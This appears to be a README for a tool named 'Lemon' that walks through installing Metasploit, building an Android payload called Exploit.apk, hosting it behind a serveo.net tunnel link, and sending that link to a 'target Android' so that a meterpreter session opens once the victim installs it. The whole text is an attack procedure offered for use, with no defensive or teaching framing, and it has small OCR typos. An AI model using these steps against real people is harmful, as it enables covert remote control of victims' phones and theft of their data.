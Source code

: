 .Requirements :-
1. Metasploit-Framework
Installation :-
1. Install it by executing "cd $HOME/Lemon && sh Install" without quotes.
How to use :-
1.Run php by typing "sh php".
2.Run say by typing "sh ssh" and copy the link you get.   [NEW SESSION]
3.Forward TCP comnections by typing "sh payload", choose a port of your own, it will take a little time to create and upload the payload with the specified port.
4.Type "cat Handler" and copy the content of Handler in your clipboard.   [NEW SESSION]
5.Finally paste the code.
6.Now, put "/Exploit.apk" after the link that you got after running "sh ssh" [For Example : lente.serveo.net/Exploit.apk] and send the link to the target Android, once the virus gets installed in the target device, you will see a meterpreter session opening, wait for a few seconds. Now you can mess with the hacked Android using the commands listed.
